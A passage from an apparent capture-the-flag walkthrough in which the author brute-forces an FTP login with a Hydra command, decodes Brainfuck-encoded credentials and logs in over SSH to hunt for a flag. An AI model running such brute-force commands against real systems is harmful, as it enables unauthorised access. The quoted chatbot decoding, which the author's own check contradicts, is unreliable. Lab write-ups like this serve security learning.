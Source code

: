 So I have the username and a potential password. I save the passwords on a file and I use Hydra to brute-force my entrance on the ftp port with
`hydra -l ftpuser -P passwords.txt ftp://10.10.16.45`
and get the password
`[21][ftp] host: 10.10.16.45   login: ftpuser   password: 5iez1wGXKfPKQ`
So I login ftp and find
`-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt`
I get the find and print it

```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

It looks like morse code, but I don't know what am I looking at.
I throw it on gpt and I get
```
The text you provided seems to be a Brainfuck program, a minimalist esoteric programming language. Brainfuck uses a very limited set of commands to manipulate memory cells and produce output.
```
And the output is
```
Hello World! Bring back the good old days!
```

I wasn't convinced so I tried it on an online decoder and got
```
User: eli
Password: DSpDiM1wAEwid
```

So I ssh and get in! I find this
```
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

I dont see a flag around so I am looking for the s3cr3t place with `locate` and find 
```
/usr/games/s3cr3t                                                                       
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!                                
/var/www/html/sup3r_s3cr3t_fl4g.php  
```
